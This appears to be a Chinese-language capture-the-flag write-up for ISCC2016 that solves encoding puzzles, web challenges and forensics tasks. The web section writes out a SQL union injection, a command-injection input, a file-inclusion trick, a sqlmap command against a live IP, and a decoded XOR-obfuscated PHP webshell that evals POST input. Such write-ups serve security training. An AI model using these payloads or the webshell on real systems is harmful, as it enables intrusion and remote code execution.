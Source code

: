 ### BASE
	
##### Base1 Find to me

```python
# c = (11m+8)
# x =19(y-8) 
# 19 is calc from : 11*x mod 26 == 1
code = "sjoyuxzr"
CHARBASE = ord('a')
for i in code:
    y = ord(i) - CHARBASE - 8
    if (y < 0):
        y += 26
    x = y * 19 % 26 
    print (chr(x + 97),end="")
```
itksuzlp

#### Base2 好长的字符串

	base64解密即可

goodluckiscc

#### Base3 明察秋毫

	看源码

Jr1p0zr2VfPp

#### Base4 心灵鸡汤

	加载到OD里面直接查找字符串参考，发现 DEath IS JUST A PaRT oF lIFE,sOMeTHInG wE'RE aLL dESTInED TO dO.
    培根解密之 aabbb aa aaaa a abaa ba baaa baabaaaba ba aa baa baaaabaa aa ba
    对应为 hackeriscc
    然后大写

HACKERISCC

#### Base5 小伟的密码

	linux里面这个加密方法无效，直接发现test.bmp
    cat之，给出flag is ImnrelnaSicoftethgoicynyrouTo
    密文丢google，是个列变位样例，get it
    
InformationSecurityTechn

#### Base6 JJ
	
    首先是jsfuck，百度云链接，里面还是js encode，题目为jj，看了下确定是jjencode，但是把全局变量删掉了
    按照jjencode的思路，首先是定义了全局变量，补全它，自己定个名字为H,本质上jjencode的实体实在最后H.$()调用的
    补全：
   ```javascript
    H = ~[];
	H = {
    ___: ++H,
    $$$$: (![] + "")[H],
    __$: ++H,
    $_$_: (![] + "")[H],
    _$_: ++H,
    $_$$: ({} + "")[H],
    $$_$: (H[H] + "")[H],
    _$$: ++H,
    $$$_: (!"" + "")[H],
    $__: ++H,
    $_$: ++H,
    $$__: ({} + "")[H],
    $$_: ++H,
    $$$: ++H,
    $___: ++H,
    $__$: ++H
    };
    H.$_ = (H.$_ = H + "")[H.$_$] + (H._$ = H.$_[H.__$]) + (H.$$ = (H.$ + "")[H.__$]) + ((!H) + "")[H._$$] + (H.__ = H.$_[H.$$_]) + (H.$ = (!"" + "")[H.__$]) + (H._ = (!"" + "")[H._$_]) + H.$_[H.$_$] + H.__ + H._$ + H.$;
    H.$$ = H.$ + (!"" + "")[H._$$] + H.__ + H._ + H.$ + H.$$;
    H.$ = (H.___)[H.$_][H.$_];
```
	然后做替换，把删掉的地方补全： ()[H], H. 比较一下jjencode的示例然后替换一下就可以了
	把密文最后一行H.$(H.$(*))的内容提取出来，是个returnxxxx字符串
    拿出来执行得到eval
    反混淆
```javascript
    < script > alert(/haha/); <!--
    10.0.0.2 / includefile / -->
    <!--
    flag12 {
        34be5bcb6c6f0bcfc628d9e390d13ba6
    } -->
    < /script>
````

34be5bcb6c6f0bcfc628d9e390d13ba6



### WEB

#### Web1 flag in flag

	有源码，关键是让sql返回flag，用户名也是flag即可，那么直接union
    sql为 select user from user where pw='' union select "flag"#'
    
5a2f5d8f-58fa-481b-a19f-9aab97ba6a4b

#### Web2 PING出事了吧
	
    index.php.txt发现源码
    检查正则后发现可以dir，于是 127.0.0.1;dir
    看到一个1C9976C230DA289C1C359CD2A7C02D48
    访问之403 那么继续 127.0.0.1;dir 1C9976C230DA289C1C359CD2A7C02D48
    看到flag.php 访问之get

0d143dcd-5b29-4f4f-9b16-73665aeb45a8



#### Web5 double kill

	上传点没有找到可利用的，转向page=进行包含，发现可以用%00截断，但是没有任何显示，猜测是硬编码
    构造图片拼接含php，然后进行LFI包含
    <script language="php" echo 123; ?>

e34349fe-42f4-4d78-b221-48094fe2b2af

#### Web4 糊涂的小明
	
    主页上链接发现proxy.php?url=，又得知admin ip，访问admin ip发现也存在proxy.php,找了一会后发现还是用proxy.php，访问admin得到注册地址，发现还有验证码，做个反代
    location / {
      proxy_pass http://101.200.145.44/web4/proxy.php?url=http://121.42.171.222/proxy.php?url=http://101.200.145.44/web4/admin/$uri;
  	}
    首先robots.txt发现两个文件的源码 trojan.php.txt, check.php.txt 看check的意思必须是admin登陆了，而且trojan也检测了admin
    尝试注册覆盖成功 "Admin "
    解密小马，eval改成echo发现还是异或的，python解密一下get 
```python
code = '''<?php
${("-"^"L")}=("!"^"`").("("^"{").("("^"[").("~"^";").("|"^".").("*"^"~");
${("]"^"?")}=("-"^"J").("]"^"'").("["^"2").(","^"B").("B"^"$").("V"^":").("("^"I").("7"^"C").("#"^"F");
${("["^"8")}=("-"^"^").("]"^")").("["^")").(","^"s").("B"^"0").("V"^"9").("("^"\\").("A"^"p").("T"^"g");
${(","^"H")}=("-"^"O").("]"^"<").("["^"(").(","^"I").("}"^"K").("e"^"Q").("("^"w").("@"^"$").("%"^"@").("#"^"@").(">"^"Q").("!"^"E").("T"^"1");
echo(${("]"^"?")}(${("["^"8")}(${(","^"H")}(${("]"^"?")}(${("["^"8")}(${(","^"H")}(${("]"^"?")}(${("["^"8")}(${(","^"H")}(${("]"^"?")}(${("["^"8")}(${(","^"H")}("BcHJglAwAADQD2Uo0UsOPUtNR8UYVqkb1RhYcKT2r+975tP9ze/G4hhpcgKyhlHNeFY+VLqnCNUBq55lTggTDCQuMEAPeGsrZK35BnUpXBriUPk9VDxp4pL3x7iYj3YH5nIa0/qxXMRMsvmVjX7vkjjs0YYadh5onm96ALwKbaxC1cZgZt5MxBQAi7XfekgpnF0oRBHRVIaznEZaDjbMBJxLXlnLHEIqhMhPofY0PhV3WPsfvYhn7Prhxzc7tw1NLDh7XuS7O3ODKMbAvU1/vAx1kJDp9n59kK7eA84Sw1WUeZfpZTp9AQ==")))))))))))));
?>
'''


code = '''${("#"^"|").("#"^"|")}=("!"^"`").("("^"{").("("^"[").("~"^";").("|"^".").("*"^"~");${("#"^"|").("#"^"|")}(("-"^"H"). ("]"^"+"). ("["^":"). (","^"@"). ("}"^"U"). ("e"^"A"). ("("^"w"). ("j"^":"). ("i"^"&"). ("#"^"p"). (">"^"j"). ("!"^"z"). ("T"^"g"). ("e"^"S"). ("_"^"o"). ("?"^"b"). ("]"^"t"));'''
i = 0
while( i < len(code)):
    if (code[i] == '(' and code[i + 1] == '"' and code[i + 4] == '^' and code[i + 8] == ')'):
        s = chr(ord(code[i + 2]) ^ ord(code[i + 6]))
        print (s, end = "")
        i += 9

    elif (code[i] == '.'):
        i += 1
    else:
        print (code[i], end = "")
        i += 1

```

    得到`${__}=ASsERT;${__}(e v a l ( $ _ P O S T [ 3 6 0 ] ));`
    菜刀直接给flag

flag:{83d97b62-3196-4d53-8c5c-f4ee805f91fc}

####Web6 simple injection


	sqlmap -u "http://101.200.145.44/web6/auth.php" --data="username=admin&password=aaa" --thread=10 --level=5 --risk=3 --	tamper="space2morehash.py"  -D "injection" -T "admin" --dump

	mdzz，然后cmd5付费解密yinquesiting

51f52db9-5304-4dcf-acb1-6b0ec2e167f2

### MISC

#### Misc1 一切都在

	丢wireshark，发送了一个jpg，直接dump数据从FFD8 到FFD9 ，打开即flag
    
w23e36ktr04

#### Misc2 Music Never Sleep

	mp3，先丢mo3stego,猜123456解密成功，但是乱码
    strings ISCC2016.mp3| grep iscc 
    找到 pass:bfsiscc2016  G
    解密之出来了base64，丢脚本解密一下
    Base64Decode -> Base32Decode -> IwtsqndljERbd367cbxf32gg

IwtsqndljERbd367cbxf32gg

